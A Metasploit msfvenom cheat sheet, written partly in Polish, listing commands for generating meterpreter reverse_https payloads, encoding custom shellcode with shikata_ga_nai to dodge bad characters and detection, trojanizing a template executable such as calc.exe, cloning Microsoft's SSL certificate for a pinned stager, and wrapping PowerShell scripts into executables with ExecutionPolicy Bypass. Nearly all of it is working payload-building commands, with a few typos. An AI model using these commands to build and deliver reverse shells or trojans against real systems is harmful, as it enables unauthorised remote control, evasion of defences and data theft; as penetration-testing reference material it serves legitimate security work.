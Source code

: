 # $ msfvenom

https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html

**Tutorial:** https://www.hackingarticles.in/msfvenom-tutorials-beginners/
Ciekawe payloady: https://www.hackingarticles.in/fun-metasploit-payloads/

| msfvenom | what | msfvenom help |
| ---- | ---- | ---- |
| `-p ... LHOST=... LPORT=... ...`<br><br>automatyczna migracja do procesu<br>`prpendmigrateprocess=explorer.exe prependmigrate=true` | payloads | `msfvenom --list payloads`<br>`msfvenom --list-options -p ...` |
| `-f exe` | formats | `msfvenom --list formats` |
| `> file.exe`<br>`-o file.exe` | zapisz do pliku |  |
| `-e x86/shikata_ga_nai` <br>`-i 3` | encoders | `msfvenom --list encoders` |
| `-b '\x00\x0a\x0d\x20\xff'` | bad chars to avoid |  |
| `-x calc.exe` | custom template |  |
| `-k` | keep functionality of template |  |
| `--smallest` | generate smallest possible payload |  |


https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86

## paylod z msfconsole

https://www.rapid7.com/blog/post/2020/12/23/metasploit-tips-and-tricks-for-haxmas-2020-2/#Skipping%20msfvenom's%20boot%20time

```bash
# omijanie msfvenom, generowanie payload z msfconsole
# Use the payload module:
use windows/meterpreter/reverse_https
set LHOST 127.0.0.1
set LPORT 4443
set SessionCommunicationTimeout 0
set ExitOnSession false

# Create the executable, as an alternative to msfvenom:
generate -o reverse_windows.exe -f exe

# Create a handler, as an alternative to exploit/multi/handler
to_handler / exploit -jq
```
## impersonate_ssl
request a copy of the remote SSL certyficate and creates a local (self signed) version using the information from the remote version.
```bash
$ msf> us egather/impersonate_ssl
$ msf> set rhost www.microsoft.com
$ msf> run
```
```bash
$ msf> use windows/x64/meterpreter/reverse_https
$ msf> set lhost ...
$ msf> set lport ...
$ msf> set handlersslcert </cert/path/cert.pem> # set SSL cert to use 
$ msf> set stagerverifysslcert true# TLS pinning
$ msf> generate -t exe -f ... # generate file within metasploit
$ msf> to_handler

```
## own shellcode in payload

```bash
$ cat binshellcode.bin | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f c -b '\x00'
-p - instructs msfvenom to read the custom payload from the stdin
--platform win: is used to specify the platform
-e x86/shikata_ga_nai: specifies the encoder to use
-f c: sets the output format (in this case C)
```
## Convert a PowerShell script into an executable file
```bash
$ msfvenom -p windows/x64/exec CMD="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File yourscript.ps1" -f exe -o outputfile.exe

```

